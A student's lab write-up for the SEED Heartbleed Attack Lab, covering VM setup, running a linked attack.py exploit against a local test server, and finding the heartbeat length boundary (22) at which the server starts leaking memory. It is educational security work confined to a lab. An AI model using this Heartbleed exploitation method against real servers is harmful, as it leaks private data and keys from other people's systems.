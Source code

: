 ```yaml
---
title: Heartbleed Attack Lab
author: Xinyi Li
date: \today{}
---
```


*The lab must be done on ubuntu 12.04*

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Heartbleed.pdf

Set up 2 VMs:

- Attacker: `10.0.2.6`
- Victim/Server: `10.0.2.7`

On the attacker edit one DNS rule:

```
sudo gedit /etc/hosts
```

Replace the line

```
127.0.0.1 www.heartbleedlabelgg.com
```

With

```
10.0.2.7 www.heartbleedlabelgg.com
```


# Task 1

Send a bunch of private messages to Boby.

Then run [attack.py](./attack.py)

```
sudo chmod u+x attack.py
./attack.py www.heartbleedlabelgg.com
```

It might not reveal any secret message in one single run. To get useful data, the program should be executed several times.

![](./hello.png)

![](./test.png)

![](./message_body.png)

# Task 2

## Question 2.1

As the length variable decreases, the warning message

```
WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!
```

vanishes. And it shows

```
Server processed malformed heartbeat, but did not return any extra data.
```

No private data can be obtained from the response printed.

## Question 2.2

The boundary value is 22.


```
$./attack.py www.heartbleedlabelgg.com --length 22
...
Server processed malformed heartbeat, but did not return any extra data.
...
$./attack.py www.heartbleedlabelgg.com --length 23
...
WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!
...
```

At [Line 385](./attack.py$L385) in `attack.py`, the threshold of entire response packet length is `0x29`. The actual payload constructed by `build_heartbeat()` at [Line 205-255](./attack.py$L205) is `176/8=22`. When you set the length field as a value greater than `22`, the server will blindly copy content from the pointer of the beginning of the payload string to fit the required payload length, which may include the critical data stored on the server.

![](./packet.png)
